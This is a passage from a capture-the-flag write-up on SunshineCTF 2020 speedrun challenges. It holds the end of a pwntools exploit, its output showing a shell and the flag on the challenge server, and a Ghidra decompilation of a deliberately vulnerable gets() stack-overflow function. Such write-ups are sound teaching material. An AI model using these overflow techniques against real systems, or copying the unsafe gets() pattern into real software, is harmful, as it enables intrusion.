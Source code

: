 ```python  

p.sendlineafter('This is the only one\n',payload)  
p.interactive()  
```

Output:

```bash  
# ./exploit_00.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-00/chall_00'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_00) gid=1000(chall_00) groups=1000(chall_00)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8392 Nov  7 07:49 chall_00  
-rw-r----- 1 root chall_00   35 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{burn-it-down-6208bbc96c9ffce4}  
```

## speedrun-01

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

No stack canary, assume BOF.

### Decompile with Ghidra

```c  
void main(void)  
{  
 char local_68 [64];  
 char local_28 [24];  
 int local_10;  
 int local_c;  
  
 puts("Long time ago, you called upon the tombstones");  
 fgets(local_28,0x13,stdin);  
 gets(local_68);  
 if (local_c == 0xfacade) {  
   system("/bin/sh");  
 }  
 if (local_10 == 0xfacade) {  
   system("/bin/sh");  
 }  
 return;  
}  
```
